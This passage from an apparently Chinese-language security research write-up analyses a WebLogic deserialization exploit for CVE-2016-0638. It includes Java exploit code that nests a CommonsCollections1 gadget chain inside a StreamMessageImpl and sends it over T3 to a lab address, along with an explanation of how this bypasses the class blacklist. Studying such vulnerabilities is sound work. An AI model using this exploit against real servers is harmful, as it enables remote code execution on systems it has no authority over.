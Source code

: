 ```java
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class, evilMap);
        byte[] serializeData=serialize(handler);
        return serializeData;
    }

    public static void main(String[] args) throws Exception {
        byte[] payloadObject = new CVE_2016_0638().getObject();
        StreamMessageImpl streamMessage = new StreamMessageImpl();
        streamMessage.setDataBuffer(payloadObject,payloadObject.length);
        byte[] payload2 = Serializables.serialize(streamMessage);
        T3ProtocolOperation.send("192.168.236.130", "7001", payload2);
    }
}
```

先从exp简单分析一下
```java
getObject()方法是一条完整的CC1链子，返回的是序列化的字节码

 byte[] payloadObject = new CVE_2016_0638().getObject();  //CC1序列化的字节码
        StreamMessageImpl streamMessage = new StreamMessageImpl();
        streamMessage.setDataBuffer(payloadObject,payloadObject.length); //设置了 字节码,字节码长度
        byte[] payload2 = Serializables.serialize(streamMessage);   //序列化streamMessage对象为了字节码
        T3ProtocolOperation.send("192.168.236.130", "7001", payload2);//这个就是T3协议发送这个payload2

序列化了二层，外面的是StreamMessage的，里面是CC1的
猜测后端解析的时候，首先反序列化解析StreamMessage的，然后解析CC1的
```

```java
// 如果消息类型为1，则表示该消息是一个普通的消息。该方法将从ObjectInput中读取PayloadStream对象，并将其用ObjectInputStream进行反序列化，最后将反序列化后的Java对象通过writeObject方法写入消息中
            case 1:
                // 从ObjectInput对象中读取PayloadStream对象，并将其作为InputStream对象传递给createPayload方法
                this.payload = (PayloadStream)PayloadFactoryImpl.createPayload((InputStream)var1);
                // 将从PayloadStream对象中获取一个BufferInputStream对象，并将其作为参数传递给ObjectInputStream类的构造函数
//所以是二层反序列化
```

![image-20240619175410210](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619175410210.png)

#### 调用链

![image-20240619164548714](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240619164548714.png)

#### 原理

```java
绕过原理：先将恶意的反序列化对象封装在StreamMessageImpl对象中，然后再对StreamMessageImpl对象进行反序列化，将生成的payload发送至目标服务器。·
目标服务器拿到payload字节码后，读取到类名StreamMessageImpl，此类名不在黑名单中，故可以绕过resolveClass中的过滤。在调用StreamMessageImpl的readObject时，底层会调用其readExternal方法，对封装的序列化数据进行反序列化，从而调用恶意类的readObject函数
```
